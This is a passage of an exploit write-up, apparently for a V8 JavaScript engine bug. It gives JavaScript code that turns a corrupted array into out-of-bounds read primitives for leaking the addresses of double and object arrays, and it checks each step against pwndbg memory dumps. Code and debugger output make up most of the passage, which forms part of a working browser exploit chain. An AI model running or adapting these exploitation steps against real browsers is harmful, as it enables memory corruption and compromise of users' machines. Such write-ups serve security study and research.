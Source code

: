 
```js
  dblIndex = searchDblArrIndex(dblAddr, corruptedArr, 0x40504000/2, 0x40508000/2, dblAddr + 0x100);
  dblAddr = indexToAddr(dblIndex + 10);

  dblIndex = searchDblArrIndex(dblAddr, corruptedArr, 0x40504000/2, 0x40508000/2, dblAddr + 0x100);
  console.log("oobDblAddr2: " + indexToAddr(dblIndex).toString(16));
  var oobDbl2Index = dblIndex;
```

Now we search for `oobDblAddr2's` element object member's address. Same as before, on first try we match the pattern but it is not in `obDblAddr2`, so we try again and get the correct address.

```bash
pwndbg> x/75wx 0x058f00042191-1
0x58f00042190:	0x0018e4c1	0x00000219	0x00000219	0x00182271
0x58f000421a0:	0x00000901	0x0000000a	0x00000000	0x00000002
0x58f000421b0:	0x00000000	0x40508000	0x00000000	0x40544000
0x58f000421c0:	0x00000000	0x40548000	0x00000000	0x3ff80000
0x58f000421d0:	0x0018ece5	0x00000219	0x000421e9	0x00000200
0x58f000421e0:	0x0000117d	0x00207c81	0x00000901	0x0000000a
0x58f000421f0:	0x00000000	0x00000082	0x00000000	0x40508000
0x58f00042200:	0x00000000	0x40544000	0x00000000	0x40548000
0x58f00042210:	0x00000000	0x3ff80000	0x00000901	0x00000006
0x58f00042220:	0x00000000	(0x40504000)-> 1	0x00000000	0x40508000
0x58f00042230:	0x00000000	0x3ff80000	0x0018ece5	0x00000219
0x58f00042240:	0x00042251	0x00000006	0x0000117d	0x00207cad
0x58f00042250:	0x00000901	0x00000006	0x00000000	0x40504000
0x58f00042260:	0x00000000	0x40508000	0x00000000	0x3ff80000
0x58f00042270:	0x00000089	0x00000004	0x00000000	0x00848484
0x58f00042280:	0x0018ed65	0x00000219	0x00042299	0x00000004
0x58f00042290:	0x0000117d	0x00207cd9	0x00000089	0x00000004
0x58f000422a0:	0x00828282	0x00848484	0x00000591	0x00000003
0x58f000422b0:	0x00000005	0x65313234	0x00000039
```

We find a pattern that is not inside `OobDblArr2`. We search again this time starting from `dblIndex + 0x10` which translates to 0x58f00042259. 

```js
  let objIndex = searchObjArrIndex(dblAddr, corruptedArr, dblAddr + 0x100);
  console.log(objIndex.toString(16));
  console.log("oobObjAddr: " + indexToAddr(objIndex).toString(16));
```

Next we find the address of `oobObjAddr's` element object member's address. We will place any object in this array and read it's address through OOB read in `oobDblAddr`.

```bash
pwndbg> x/80wx 0x2f5500042191-1
0x2f5500042190:	0x0018e4c1	0x00000219	0x00000219	0x00182271
0x2f55000421a0:	0x00000901	0x0000000a	0x00000000	0x00000002
0x2f55000421b0:	0x00000000	0x40508000	0x00000000	0x40544000
0x2f55000421c0:	0x00000000	0x40548000	0x00000000	0x3ff80000
0x2f55000421d0:	0x0018ece5	0x00000219	0x000421e9	0x00000200
0x2f55000421e0:	0x0000117d	0x00207c81	0x00000901	0x0000000a
0x2f55000421f0:	0x00000000	0x00000082	0x00000000	0x40508000
0x2f5500042200:	0x00000000	0x40544000	0x00000000	0x40548000
0x2f5500042210:	0x00000000	0x3ff80000	0x00000901	0x00000006
0x2f5500042220:	0x00000000	0x40504000	0x00000000	0x40508000
0x2f5500042230:	0x00000000	0x3ff80000	0x0018ece5	0x00000219
0x2f5500042240:	0x00042251	0x00000006	0x0000117d	0x00207cad
0x2f5500042250:	0x00000901	0x00000006	0x00000000	0x40504000
0x2f5500042260:	0x00000000	0x40508000	0x00000000	0x3ff80000
0x2f5500042270:	0x00000089	0x00000004	0x00000000	0x00848484
0x2f5500042280:	0x0018ed65	0x00000219	0x00042299	0x00000004
0x2f5500042290:	0x0000117d	0x00207cd9	0x00000089	0x00000004
0x2f55000422a0:	(0x00828282	0x00848484)	0x00000591	0x00000003
```